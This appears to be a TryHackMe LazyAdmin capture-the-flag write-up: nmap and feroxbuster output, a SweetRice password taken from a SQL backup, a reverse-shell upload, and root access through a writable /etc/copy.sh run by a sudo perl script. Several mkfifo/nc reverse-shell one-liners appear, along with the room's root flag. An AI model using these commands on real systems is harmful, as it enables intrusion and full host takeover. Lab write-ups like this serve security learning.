 # Nmap 7.93 scan initiated Thu Jan 12 23:21:31 2023 as: nmap -sV -A -p 80,22 -vvv -oN README.md 10.10.168.148
```
Nmap scan report for 10.10.168.148
Host is up, received echo-reply ttl 63 (0.21s latency).
Scanned at 2023-01-12 23:21:38 EST for 25s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61846227c6c32917dd27459e29cb905e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=1/12%OT=22%CT=%CU=30378%PV=Y%DS=2%DC=T%G=N%TM=63C0DC6B%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 21.161 days (since Thu Dec 22 19:30:34 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   214.90 ms 10.18.0.1
2   214.95 ms 10.10.168.148

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 12 23:22:03 2023 -- 1 IP address (1 host up) scanned in 33.16 seconds
```

### Directory Busting
```
feroxbuster -u http://10.10.31.94 -v -e

$ip/content/as
[>-------------------] - 1m     13520/330141  24m     found:33      errors:1455   
[#>------------------] - 1m      2036/30000   32/s    http://10.10.31.94/ 
[##>-----------------] - 1m      3016/30000   50/s    http://10.10.31.94/icons/ 
[#>------------------] - 59s     2890/30000   48/s    http://10.10.31.94/content/ 
[>-------------------] - 56s      970/30000   17/s    http://10.10.31.94/content/js/ 
[#>------------------] - 55s     1832/30000   32/s    http://10.10.31.94/content/inc/ 
[####################] - 15s    30000/30000   0/s     http://10.10.31.94/content/images/ => Directory listing
[>-------------------] - 51s     1301/30000   25/s    http://10.10.31.94/content/_themes/ 
[>-------------------] - 46s      627/30000   13/s    http://10.10.31.94/content/attachment/ 
[>-------------------] - 39s      565/30000   14/s    http://10.10.31.94/content/inc/lang/ 
[####################] - 28s    30000/30000   0/s     http://10.10.31.94/content/inc/font/ => Directory listing
[>-------------------] - 31s      211/30000   6/s     http://10.10.31.94/content/as/ 
[--------------------] - 0s         0/30000   0/s     http://10.10.31.94/content/_themes/default/ 
[--------------------] - 0s         0/30000   0/s     http://10.10.31.94/content/as/lib/ 
```

### upon getting the backup sql, and inspecting i am able to get admin and password
```
cat mysql_bakup_20191129023059-1.5.1.sql | grep -ir pass
mysql_bakup_20191129023059-1.5.1.sql:  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```
### 10.10.31.94/content
user: manager
pass: Password123

once I am able to log in to the webserver, I go to ads page and upload a reverse shell

### i used searchploit to get the sweetrice exploit

```
┌──(aaron㉿kali)-[~/thm/lazyadmin]
└─$ nc -l -v -p 4433
listening on [any] 4433 ...
10.10.31.94: inverse host lookup failed: Unknown host
connect to [10.18.70.19] from (UNKNOWN) [10.10.31.94] 58546
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 08:13:10 up 13 min,  0 users,  load average: 0.06, 1.94, 2.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 444 >/tmp/f" > /etc/copy.sh
```

└─$ nc -lnvp 4444   
listening on [any] 4444 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.129.83] 40224
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 04:02:02 up 11 min,  0 users,  load average: 0.24, 0.66, 0.69
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bin/sh -i 2>&1|nc 10.18.70.19 5554 >/tmp/f
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 5554 > /tmp/f" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl

# I created another listening port and upon running I am successfully become root

┌──(aaron㉿kali)-[~/thm/lazyadmin]
└─$ nc -lnvp 5554
listening on [any] 5554 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.129.83] 35054
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /
# ls
bin
boot
cdrom

var
vmlinuz
vmlinuz.old
# cd /root
# ls
root.txt
# cat root/txt  
cat: root/txt: No such file or directory
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
# 
